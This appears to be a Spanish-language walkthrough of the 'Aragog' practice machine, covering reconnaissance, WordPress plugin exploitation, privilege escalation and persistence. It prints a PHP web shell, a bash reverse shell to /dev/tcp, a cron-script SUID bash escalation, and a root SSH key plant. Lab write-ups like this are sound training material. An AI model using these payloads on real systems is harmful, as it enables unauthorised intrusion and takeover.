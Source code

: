 ```yaml
---
title: "1. Aragog"
description: "1. Aragog"
pubDate: 2025-05-20
---
```




# Fase de reconocimiento

## Identificamos la maquina

````
arp-scan -I ens33 --localnet
````

## Creamos directorios de trabajo

## Buscamos puertos abiertos

````
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <ip1> -oG allPorts
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419171219.png)

## Reconocimiento de servicios

````
nmap -sCV -p<puertos> <ip1> -oN targeted
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419172046.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419172332.png)

## Buscar tecnologías usadas en la web

````
whatweb http://<ip1>
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419172801.png)

## Enumeración directorios por fuerza bruta

````
gobuster dir -u http://<ip1>/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,txt
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419173821.png)

## Añadimos los DNS para que cargue bien la pagina

En /etc/hosts
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419174145.png)

# Fase de Explotación

Como podemos observar con Wappalyzer nos encontramos ante un Wordpress

## Buscar vulnerabilidades

````
wpscan --url http://<ip1>/blog/ --enumerate u,vp --plugins-detection aggressive    --api-token=<API>
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419174855.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419175004.png)

## Usaremos Unauthenticated Arbitrary File Upload leading to RCE

1. Descargamos la POC del link
1. Creamos el payload.php

````
<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>
````

    ![[Pasted image 20240419175408.png]]
    

1. Ejecutamos el exploit con el payload cargado en codigo.

````
pyhton3 exploit.py http://<ip1>/blog/
````

Ya funciona! Se insertan comandos desde ?cmd=
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419175945.png)

## Para ganar acceso al sistema (Reverse Shell)

1. Nos ponemos en escucha por el puerto 443

````
nc -nlvp 443
````

2. Mandamos la Reverse Shell

````
?cmd=bash -c "bash -i>%26 /dev/tcp/<ipA>/<port> 0>%261"
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419180437.png)
\[-\] ==pwned!==

## Ajustar terminal

````
script /dev/null -c bash
````

ctrl + z

````
stty raw -echo; fg
````

````
	reset xterm
````

````
export TERM=xterm
````

Ajustar proporciones

````
stty rows 44 columns 184
````

# Privilege Escalation

## Buscar donde está montado el wordpress

1. Encontramos un apache que nos dice donde está montado
1. Abrimos wp-config.php en busca de credenciales
1. Encontramos que llama al archivo config.default.php
1. ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419192906.png)

## Login en la BBDD

````
mysql -uroot -p
````

Dentro de la BBDD:

````
show databases;
````

````
use wordpress;
````

````
show tables;
````

````
select * from wp_users;
````

Encontramos una contraseña cifrada

## Crack contraseña

````
john -w:/usr/sahre/wordlists/rockyou.txt <hash>
````

## Enumeramos binarios con permiso del usuario

1. Nos logueamos con la cuenta por ssh con la contraseña crackeada
1. cd /
1. 

````
find \-user <user> 2>/dev/null
````

4. Encontramos un backup.sh , una tarea perteneciente a 'user' que ejecuta root.
4. Modificamos el script

````
chmod u+s /bin/bash
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419194034.png)
6. Esperas que se ejecute la tarea

````
bash -p
````

\[+\] ==pwned!==

# Pivoting

* Añadimos nuestra clave publica a /root/.ssh/authorized_keys

````
ssh root@<ip1>
````

Next -> [2. Nagini](../2-nagini)

# Resumen Técnicas

WordPress Enumeration + Virtual Hosting  
Using wpscan + API TOKEN for vulnerability discovery in wordpress  
File Manager WordPress Plugin Exploitation - Unauthenticated Arbitrary File Upload leading to RCE  
Uploading a web shell to the server  
Enumerating the Apache web server directory structure  
MYSQL Database Enumeration  
Cracking Hashes + Password reuse  
Abusing Cron Job (Privilege Escalation)  
EXTRA: Creation of bash script to discover computers on the internal network  
EXTRA: Creation of a bash script to discover the open ports of the computers discovered in the internal network
